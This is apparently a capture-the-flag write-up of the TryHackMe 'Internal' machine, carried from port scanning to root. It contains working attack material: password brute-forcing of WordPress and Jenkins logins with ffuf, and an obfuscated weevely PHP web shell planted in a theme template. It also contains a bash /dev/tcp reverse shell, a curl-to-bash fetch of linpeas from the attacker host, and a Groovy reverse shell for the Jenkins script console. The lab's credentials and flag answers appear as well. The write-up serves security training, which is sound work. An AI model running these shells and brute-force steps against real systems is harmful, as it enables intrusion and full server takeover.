









#tryhackme #linux #autorecon #php #jenkins #cms #wordpress #wpscan #tunnel #weevely #Brute-Force-Attack #ffuf #linpeas 

## Pre-engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

## Recon

### AutoRecon

```bash
sudo $(which autorecon) -vv -m 3 10.10.56.229
```

### Nmap

```bash
# Nmap 7.94 scan initiated Sat Jun 24 05:56:24 2023 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/thm/internal/results/10.10.56.229/scans/_full_tcp_nmap.txt -oX /home/kali/thm/internal/results/10.10.56.229/scans/xml/_full_tcp_nmap.xml 10.10.56.229
Nmap scan report for 10.10.56.229
Host is up, received user-set (0.26s latency).
Scanned at 2023-06-24 05:56:24 EDT for 332s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=6/24%OT=22%CT=1%CU=35629%PV=Y%DS=2%DC=T%G=Y%TM=6496BF1
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=2%ISR=10D%TI=Z%
OS:CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508
OS:ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W
OS:5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y
OS:%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE
OS:(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 33.810 days (since Sun May 21 10:35:33 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   284.35 ms 10.11.0.1
2   284.52 ms 10.10.56.229

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 24 06:01:57 2023 -- 1 IP address (1 host up) scanned in 332.49 seconds
```

### Dir

```bash
200      GET       15l       74w     6147c http://10.10.56.229/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.56.229/
200      GET      329l     3644w    53942c http://10.10.56.229/blog/
200      GET      375l      964w    10918c http://10.10.56.229/index.html
200      GET       77l      147w     3068c http://10.10.56.229/phpmyadmin/js/codemirror/addon/lint/lint.css
200      GET       38l       73w      662c http://10.10.56.229/phpmyadmin/js/codemirror/addon/hint/show-hint.css
200      GET      325l      922w     7771c http://10.10.56.229/phpmyadmin/js/codemirror/lib/codemirror.css
200      GET        0l        0w        0c http://10.10.56.229/phpmyadmin/js/get_scripts.js.php
200      GET      170l      365w     2611c http://10.10.56.229/phpmyadmin/themes/pmahomme/css/printview.css
200      GET       19l      102w     8154c http://10.10.56.229/phpmyadmin/themes/pmahomme/img/logo_right.png
200      GET       26l      359w    10538c http://10.10.56.229/phpmyadmin/db_structure.php
200      GET       98l      278w    35231c http://10.10.56.229/phpmyadmin/favicon.ico
200      GET     1225l     3355w    35020c http://10.10.56.229/phpmyadmin/themes/pmahomme/jquery/jquery-ui-1.11.4.css
200      GET      212l      807w    13316c http://10.10.56.229/phpmyadmin/doc/html/index.html
200      GET       49l       53w     2061c http://10.10.56.229/phpmyadmin/js/whitelist.php
200      GET        1l        1w       53c http://10.10.56.229/phpmyadmin/themes/dot.gif
200      GET      267l      586w     6763c http://10.10.56.229/phpmyadmin/js/get_image.js.php
200      GET       26l      359w    10531c http://10.10.56.229/phpmyadmin/index.php
200      GET      394l     2973w    29261c http://10.10.56.229/phpmyadmin/js/messages.php
200      GET     5185l    11337w   106104c http://10.10.56.229/phpmyadmin/phpmyadmin.css.php
200      GET       26l      359w    10531c http://10.10.56.229/phpmyadmin/
```

## Initial Access

```bash
echo 10.10.56.229 nternal.thm >> /etc/hosts
```



### Wordpress Admin

WPScan did not report any vulnerable plugins or themes

```bash
sudo wpscan --url http://10.10.56.229:80/blog/ -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee "/home/kali/thm/internal/results/10.10.56.229/scans/tcp80/tcp_80_http_wpscan.txt"
```

```bash
...
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

Enumerate directories under the wordpress entry point

```bash
feroxbuster -u http://internal.thm/blog/ -t 100
```

```bash
301      GET        9l       28w      322c http://internal.thm/blog/wp-content => http://internal.thm/blog/wp-content/
301      GET        9l       28w      320c http://internal.thm/blog/wp-admin => http://internal.thm/blog/wp-admin/
...
```

Found wordpress admin login 



Try brute force weak passwords

```bash
ffuf -c -w /opt/wordlists/rockyou.txt -request login.req -request-proto http -v -fr "is incorrect"
```

```bash
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 709ms]
| URL | http://internal.thm/blog/wp-login.php
| --> | http://internal.thm/blog/wp-login.php?redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&action=confirm_admin_email&wp_lang=en_US
    * FUZZ: my2boys
```

Login



### Shell as www-data

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress

There are two methods to RCE after getting in wordpress admin dashboard

- Panel RCE
- Plugin RCE

#### Panel RCE

```bash
┌──(kali㉿kali)-[~/thm/internal/www]
└─$ weevely generate s s
Generated 's' with password 's' of 761 byte size.

┌──(kali㉿kali)-[~/thm/internal/www]
└─$ cat s
<?php
$m='eg_matECch("/$kh(.EC+)$kf/EC",@file_geECECt_contents("pEChpEC://inpuECt"),$m)==EC1) {ECEC@ob_start()';
$v=';@ob_enECd_cEClean();$r=EC@bECase64_eECncode(EC@x(@gzcomECpECressEC($o),$ECk));print("$ECpEC$kh$r$kf");}';
$e=';@eECval(EC@gzunECcompreECss(@xEC(@bECaECse64_decode(EC$ECm[1]EC),$k)));$o=@ob_gECetEC_conECtents()';
$P='Cr($j=0;($j<$c&EC&$i<$lEC);$jEC++,$i++EC){$oEC.=$t{EC$i}^$k{$ECj};}}retECuECrn $oEC;}if (@prECEC';
$T='$k="03c7ECECc0ac";$kh=EC"e395ECd80EC182ECdb";$kf="0EC7aECe2cEC30f034";$p="Fwc3AECEC4lqKESuTECyXY';
$o=str_replace('zP','','zPzPcreatezP_zPfuzPnzPction');
$W='";functiECon x($tEC,$kEC){$c=strECECleECn($k);$l=strlen(EC$ECt);$o="EC";for($i=0;EC$i<EC$l;){fECoE';
$H=str_replace('EC','',$T.$W.$P.$m.$e.$v);
$u=$o('',$H);$u();
?>
```

Appearance → Theme Editor → 404 Template (at the right)



The 404 error page location:

```bash
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

Prepare reverse shell

```bash
nc -lvnp 1111
```

```bash
┌──(kali㉿kali)-[~/thm/internal/www]
└─$ weevely http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php s '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1"'
```

```bash
┌──(kali㉿kali)-[~/thm/internal]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.67.120] 43930
bash: cannot set terminal process group (1147): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ id
<tml/wordpress/wp-content/themes/twentyseventeen$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Shell as aubreanna

The mysql creds in `wp-config.php` doesn't help much

Run linpeas to gather more info

```bash
curl 10.11.19.145/linpeas.sh|bash
```





```bash
www-data@internal:/var/www/html/wordpress$ cat /opt/wp-save.txt
cat /opt/wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

```bash
sshpass -p 'bubb13guM!@#123' ssh -o "StrictHostKeyChecking no" aubreanna@internal.thm
```

```bash
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$
```

## Privilege Escalation

### Discover jenkins

```bash
aubreanna@internal:/etc/apache2/sites-enabled$ ss -ltnp
State                      Recv-Q                      Send-Q                                             Local Address:Port                                              Peer Address:Port
LISTEN                     0                           80                                                     127.0.0.1:3306                                                   0.0.0.0:*
LISTEN                     0                           128                                                    127.0.0.1:8080                                                   0.0.0.0:*
LISTEN                     0                           128                                                127.0.0.53%lo:53                                                     0.0.0.0:*
LISTEN                     0                           128                                                      0.0.0.0:22                                                     0.0.0.0:*
LISTEN                     0                           128                                                    127.0.0.1:34939                                                  0.0.0.0:*
LISTEN                     0                           128                                                            *:80                                                           *:*
LISTEN                     0                           128                                                         [::]:22                                                        [::]:*
```

```bash
aubreanna@internal:/etc/apache2/sites-enabled$ curl 127.0.0.1:8080
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:

Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

</body></html> 
```

Local port forward 8080

```bash
sshpass -p 'bubb13guM!@#123' ssh -o "StrictHostKeyChecking no" aubreanna@internal.thm -L 8888:127.0.0.1:8080
```



Tried login with `aubreanna`, failed

Brute force

> Tried common user names and passwords, no result

```bash
ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w /usr/share/seclists/Passwords/darkweb2017-top100.txt:FUZZ2 -request login.req -request-proto http -v -fr 'loginError'
```

Specify user admin and wordlist `rockyou.txt`

```bash
ffuf -c -w /opt/wordlists/rockyou.txt -request login.req -request-proto http -v -fr 'loginError'
```

```bash
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4228ms]
| URL | http://127.0.0.1:8888/j_acegi_security_check
| --> | http://127.0.0.1:8888/
    * FUZZ: spongebob
```



### RCE in jenkins

> https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#rce-in-jenkins

There are mainly 3 ways to RCE in jenkins

- RCE Creating/Modifying a project
- RCE Execute Groovy script
- RCE Creating/Modifying Pipeline

**Using method : `Creating/Modifying a project`**

Manage Jenkins -> Script Console

```groovy
String host="10.11.19.145";
int port=1111;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



```bash
┌──(kali㉿kali)-[~/thm/internal]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.67.120] 60012
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
ls -la /opt
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```

```bash
aubreanna@internal:~$ su - root
Password:
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
root@internal:~#
```
